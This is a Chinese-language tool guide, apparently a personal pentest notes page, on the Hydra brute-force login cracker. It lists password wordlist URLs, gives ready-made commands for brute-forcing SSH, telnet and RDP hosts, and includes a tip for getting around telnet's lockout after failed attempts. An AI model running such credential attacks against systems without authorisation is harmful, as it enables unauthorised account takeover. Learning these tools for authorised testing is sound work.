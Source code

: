 ```yaml
---
tags: [Hydra, brute force, 暴力破解, 字典攻击]
last_modified_time: 2020-06-19 10:50:05 +0800
---
```


本文介绍了知名暴力破解工具 Hydra 的基本信息、使用方法及遇到过的一些问题

<p id="markdown-toc"></p>
<!-- vim-markdown-toc GFM -->

* [简介](#简介)
* [常用链接](#常用链接)
* [基本原理](#基本原理)
* [常用字典](#常用字典)
* [使用方法](#使用方法)
  * [ssh](#ssh)
  * [telnet](#telnet)
  * [rdp](#rdp)
* [遇到过的问题](#遇到过的问题)
  * [暴力破解 telnet 遇到尝试 5 次后端口被锁，300s 后才能再试怎么办？](#暴力破解-telnet-遇到尝试-5-次后端口被锁300s-后才能再试怎么办)
* [相关工具](#相关工具)
  * [crunch](#crunch)
* [链接](#链接)

<!-- vim-markdown-toc -->

## 简介
> &emsp;&emsp;Hydra是并行的网络登录破解程序。Hydra通过使用不同的方法来生成可能的密码，例如单词列表攻击，蛮力攻击等。渗透测试人员通常将 Hydra 与名为 crunch 的程序一起使用，该程序用于生成单词表。然后使用 Hydra 使用紧缩创建的单词列表来测试攻击。
> 
> &emsp;&emsp;随着更多服务的支持，Hydra 将随着时间的推移进行更新。Hydra 的创建者将其工作发布在 GitHub 之类的存储库中。
> 
> &emsp;&emsp;——谷歌翻译自[Hydra (software) - Wikipedia](https://en.wikipedia.org/wiki/Hydra_(software))

Kali Linux 中存在图形化界面版本，极其地节省了安全人员的学习命令时间

## 常用链接
* [GitHub](https://github.com/vanhauser-thc/thc-hydra)

## 基本原理
字典攻击或暴力破解

## 常用字典
* <https://raw.githubusercontent.com/berzerk0/Probable-Wordlists/master/Real-Passwords/Top207-probable-v2.txt>
* <https://raw.githubusercontent.com/jeanphorn/wordlist/master/rdp_passlist.txt>
* <https://krebsonsecurity.com/2013/12/hacked-via-rdp-really-dumb-passwords/>
* <https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/Common-Credentials/top-20-common-SSH-passwords.txt>
* <https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/Common-Credentials/10-million-password-list-top-100.txt>
* <https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/Common-Credentials/best110.txt>
* <https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/Common-Credentials/top-passwords-shortlist.txt>
* <https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/Common-Credentials/worst-passwords-2017-top100-slashdata.txt>
* <https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/xato-net-10-million-passwords-100.txt>
* <https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/Default-Credentials/ssh-betterdefaultpasslist.txt>


## 使用方法
详情参见`man hydra`，里面有详细的说明。本部分着重讲的是笔者的使用经历

### ssh

```
hydra -L users.txt -P dic_passwd.txt -M ssh_active_host.txt -e nsr -F -t 4 -vV ssh
```


### telnet
```
hydra -C dic/user_pass.txt -e nsr -f -vV -t 1 telnet://192.168.1.1:23
```


### rdp
```
hydra -l administrator -P Top207-probable-v2.txt -M rdp_active_host.txt -e nsr -f -t 1 -vV rdp | tee hydra.log
```


## 遇到过的问题
### 暴力破解 telnet 遇到尝试 5 次后端口被锁，300s 后才能再试怎么办？
设置 `-W` 参数（如`-W 60`），让其在连接一次后等待一段时间。

## 相关工具
### crunch
crunch 是一个单词表生成器，您可以在其中指定标准字符集或指定的字符集。crunch 可以生成所有可能的组合和排列。详情参见： [crunch ｜ Penetration Testing Tools](https://tools.kali.org/password-attacks/crunch)


## 链接
下面总结了本文中使用的所有链接：

<!-- link start -->
* [Hydra (software) - Wikipedia](https://en.wikipedia.org/wiki/Hydra_(software))
* [vanhauser-thc/thc-hydra: hydra](https://github.com/vanhauser-thc/thc-hydra)

<!-- link end -->


